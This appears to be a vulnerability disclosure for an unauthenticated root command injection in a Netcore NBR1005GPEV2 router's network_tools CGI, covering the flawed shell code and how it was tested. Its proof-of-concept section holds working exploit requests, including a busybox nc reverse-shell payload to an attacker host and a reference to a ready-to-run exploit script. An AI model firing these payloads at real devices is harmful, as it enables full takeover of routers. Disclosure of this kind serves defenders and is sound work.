





# Netcore NBR1005GPEV2 Router

- Vendor: Netcore
- Product: NBR1005GPEV2 (企业级 AC1200 千兆 VPN 路由器)
- Firmware Version: V1.3.241107.015153 (LEDE 17.01-SNAPSHOT, MIPS16e mipsel / MT7621)
- Vulnerability Type: Unauthenticated OS Command Injection (CWE-78)
- Severity: Critical (CVSS 9.8 — 无需认证, 网络/相邻网络可达, root 权限)

## Overview

An **unauthenticated** OS command injection vulnerability exists in the `network_tools` CGI of the Netcore NBR1005GPEV2 router. The CGI parses the HTTP query string with a shell `eval` statement that runs **before** the session-id / permission check, and the `urldecode` sanitization call that protects the sibling CGIs is commented out in this script. As a result, an unauthenticated attacker on the network can execute arbitrary commands as `root` by sending a single crafted GET request:

`GET /cgi-bin/network_tools?sid=a';<COMMAND>;' HTTP/1.1`

The web front-end is `uhttpd` (listening on TCP 80/443, plus a secondary HTTP port 23355). The `/cgi-bin` prefix is served from `/www/cgi-bin/`. Exploitation requires **no credentials** and no prior session.

## Vulnerability Details

**Component:** `/www/cgi-bin/network_tools` (POSIX shell CGI).

**Root cause:** The query-string parser builds variable assignments with `eval` and runs inside a `while` loop that executes **before** the session-id length check and the `ubus call session access` permission check:






```sh
#handle query string
#QUERY_STRING=`urldecode "$QUERY_STRING"`      <- sanitization COMMENTED OUT (key difference)
while [ true ]; do
    param=${QUERY_STRING%%&*}
    QUERY_STRING=${QUERY_STRING#*&}
    val=${param#*=}
    key=${param%=*}
    eval "${key}='${val}'}"                     <- INJECTION POINT (runs before auth)
    if [ "$param" = "$QUERY_STRING" ] || [ ${#param} -le 0 ]; then
        break
    fi
done

#check sessin id and permission
if [ ${#sid} -ne 32 ]; then                     <- auth check happens AFTER eval
    returnerrcode 6
    exit
fi
access=`ubus call session access "{\"ubus_rpc_session\":\"$sid\",\"object\":\"system\",\"function\":\"upgrade\"}" | grep "true"`
```

**Taint flow:**

1. `uhttpd` passes `QUERY_STRING` to the CGI **verbatim** (it does not URL-decode it), so the attacker controls every literal byte of `val`.
2. `val = ${param#*=}` — value extracted with **no filtering** (the `urldecode` call that strips dangerous characters is commented out, unlike `acbackup`/`upgrade` where it is active and effectively neutralizes the same pattern).
3. `eval "${key}='${val}'"` — with `sid=a';<CMD>;'`, the eval expands to `sid='a';<CMD>;''`, breaking out of the single-quoted assignment and executing `<CMD>` under the CGI's privileges (`root`).
4. The subsequent session check returns `result:[6]` and aborts, but the injected command has already executed.

Note: spaces are illegal in an HTTP request-target, so spaces inside `<CMD>` are written as `${IFS}`, which the CGI's shell expands at eval time.

The same `eval`-based parser exists in `acbackup` and `upgrade`, but those call `urldecode` first; dynamic testing confirmed `urldecode` is a `while` loop whose second iteration deletes the dangerous characters that the first iteration's `printf` decoded — so those two CGIs are **not** exploitable via this path. `network_tools` alone is vulnerable because its `urldecode` invocation is commented out.

## Proof of Concept

**Step 1 — unauthenticated command execution (file-write proof):**

```http
GET /cgi-bin/network_tools?sid=a';touch${IFS}/tmp/pwned;' HTTP/1.1
Host: <target>
User-Agent: poc
Connection: close

```

Response (auth check fails **after** the command runs):

```http
HTTP/1.1 200 OK
Connection: close
Transfer-Encoding: chunked
Content-type: application/json

2E
{
"jsonrpc": "2.0",
"id ": 1,
"result": [6]
}
0

```

Despite `result:[6]`, `/tmp/pwned` is created by `root`, confirming the command executed before the auth check.

**Step 2 — reverse shell (drop the `touch` for an interactive shell):**

```http
GET /cgi-bin/network_tools?sid=a';mkfifo${IFS}/tmp/f;cat${IFS}/tmp/f|/bin/sh${IFS}-i${IFS}2>&1|/bin/busybox${IFS}nc${IFS}<LHOST>${IFS}<LPORT>>/tmp/f;' HTTP/1.1
Host: <target>
Connection: close

```

Catch with `nc -lvnp <LPORT>` on the attacker host (`<LHOST>`). The device runs BusyBox `nc` (no `-e`), so the `mkfifo` trick is used; on real hardware BusyBox `telnetd -p <port> -l /bin/sh` is an equivalent bind-shell alternative.

A ready-to-run Python POC is provided in `exp_network_tools.py` (auto-generates `shell.sh`, hosts it, and triggers the injection):

```
python exp_network_tools.py <target_ip> 80 <attacker_ip> 80 4444
```

## Impact

- **Unauthenticated remote code execution as root** — full device compromise.
- No user interaction, no credentials, reachable from the LAN (and WAN if remote administration is enabled, port 80/443/23355).
- Chainable with the device's other issues: `telnetd` (S90, autostart) and `dropbear` SSH (PasswordAuth/RootPasswordAuth on) combined with `/etc/shadow` `root::` (empty password) give an immediate root shell on unconfigured/reset devices; the unauthenticated ACL (`unauthenticated.json`) additionally exposes `routerd.passwd_set` / `uci set` / `wan_config_set` during the pre-initialization window.

## Reproduction Result







Verified in an emulation environment (`qemu-user-static` + `chroot` of the extracted squashfs root, with `ubusd` + `uhttpd` manually started). The injection was confirmed three ways: (1) directly invoking the CGI with a crafted `QUERY_STRING` created a file owned by `root`; (2) a real HTTP request to the emulated `uhttpd` produced the same result; (3) sending the request from a separate host on the LAN produced the on-device side effect, and an injected `nc` callback connected back to the attacker host, confirming both arbitrary command execution and outbound network capability. The reverse-shell stage was validated for the injection primitive (command execution + outbound connection); the interactive shell stage depends on BusyBox `nc`/`telnetd` runtime behavior which is equivalent on real hardware.
